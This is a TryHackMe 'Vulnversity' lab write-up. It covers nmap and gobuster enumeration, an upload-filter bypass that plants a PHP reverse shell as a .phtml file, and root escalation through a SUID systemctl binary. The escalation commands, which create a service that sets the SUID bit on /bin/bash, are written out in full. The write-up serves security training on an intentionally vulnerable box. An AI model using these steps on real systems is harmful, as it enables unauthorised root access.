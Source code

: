 ```yaml
---
layout: single
title: Vulnversity - Try Hack Me
excerpt: "Vulnversity is a beginner friendly box from TryHackMe. The initial foothold involves exploiting a poorly secured upload functionality. Privilege Escalation is done via systemctl which has suid bit set"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/thm/vulnversity/thumbnail.png
  teaser_home_page: true
  icon: /assets/images/thm-logo.png
categories:
  - tryhackme
  - infosec
tags:  
  - upload vulnerability
  - security
  - pentesting
  - systemctl
---
```


![](/assets/images/thm/vulnversity/1.png)

Hello, today we’re doing Vulnversity from tryhackme.com , an easy machine aimed for beginners. It involved finding an upload form, then exploiting that poorly secured upload form to obtain a shell on the box. For privilege escalation we found out that there is a suid bit set on systemctl , checking gtfobins gives us a method on how to run commands as root.

# Nmap

```bash
# Nmap 7.91 scan initiated Mon Sep 13 22:32:58 2021 as: nmap -sC -sV -oN nmap/vulnversity 10.10.209.201
Nmap scan report for 10.10.209.201
Host is up (0.026s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
| http-vulners-regex: 
|   /main.pl: 
|_    cpe:/a:squid-cache:squid:3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-09-13T22:33:21-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-14T02:33:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 13 22:33:34 2021 -- 1 IP address (1 host up) scanned in 36.66 seconds
```

6 ports open, we'll start enumerating the ftp first then as we go we’ll enumerate each port

# FTP

If anonymous login was enabled, nmap would tell us that, but nmap is weird sometimes and doesn’t and I always like to check it manually anyway.

![](/assets/images/thm/vulnversity/2.png)

Anonymous login wasn't enabled and no public exploits are available for that version. Moving on…

# SMB

![](/assets/images/thm/vulnversity/3.png)

Nothing to see here.. Moving on

# WebServer - 3333

![](/assets/images/thm/vulnversity/4.png)

Nothing on the page is clickable, most likely a static page. Checking the source code..

![](/assets/images/thm/vulnversity/5.png)

Well, nothing.. Starting a gobuster with different extensions

![](/assets/images/thm/vulnversity/6.png)

Let’s check other things while gobuster is running.

Going to /robots.txt

![](/assets/images/thm/vulnversity/7.png)

404, but the server is disclosing which version of apache is the webserver running on. This would definitely be a finding on a pentest :)

Checking what gobuster's doing

![](/assets/images/thm/vulnversity/8.png)

And we get a hit on /internal , let’s check that out.

![](/assets/images/thm/vulnversity/9.png)

Cool, let’s try uploading a php file

Trying to upload a php reverse shell from pentestmonkey

![](/assets/images/thm/vulnversity/10.png)

![](/assets/images/thm/vulnversity/11.png)

![](/assets/images/thm/vulnversity/12.png)

And we get “Extension not allowed” , but what if it doesn’t check for other extensions other than .php? What if we try uploading a .phtml for example? Will that do the thing?

![](/assets/images/thm/vulnversity/13.png)

![](/assets/images/thm/vulnversity/14.png)

![](/assets/images/thm/vulnversity/15.png)

And hey, it says “Success”, now the question is where this file has been uploaded? Let’s try /internal/shell.phtml (also starting a netcat listener in the background)

![](/assets/images/thm/vulnversity/16.png)

![](/assets/images/thm/vulnversity/17.png)

Not here, but if we remember correctly, gobuster found an images directory.

![](/assets/images/thm/vulnversity/18.png)

Unfortunately, we don’t see our shell here, let’s try the root directory

![](/assets/images/thm/vulnversity/19.png)

Not here... Let’s take a step back and gobuster again what’s inside of /internal directory

![](/assets/images/thm/vulnversity/20.png)

And hey, we get a hit right away. Let’s go to /uploads

![](/assets/images/thm/vulnversity/21.png)

We’ve already started the listener in the background, let’s just click it and see if we get a shell back

![](/assets/images/thm/vulnversity/22.png)

We do, I have stabilized the shell, and read user.txt :)

Now, we are www-data which is a service account, how can we escalate our privileges to another user or even root? I've tried simple things like sudo -l and finding suid binaries with find

![](/assets/images/thm/vulnversity/23.png)

There is one thing that really stands out, and that is systemctl, you don’t usually see that having a suid bit set, let’s check it on gtfobins.github.io , maybe we can escalate our privileges with it.

![](/assets/images/thm/vulnversity/24.png)

Well, good news, let’s click on “SUID”

![](/assets/images/thm/vulnversity/25.png)

Let’s try escalating our privileges with it.

Adjusting it a bit, this is what we’re going to run

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

![](/assets/images/thm/vulnversity/26.png)

Let’s modify “ExecStart” in order to set a suid bit on /bin/bash

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
Let’s try this

![](/assets/images/thm/vulnversity/27.png)

Well, that was it, an easy box, aimed for beginners. All I do when I write these write-ups is that I want to show you guys the methodology (if beginners are reading this), my thought process and all that stuff. Hope you've learned something new and I’ll see you next time
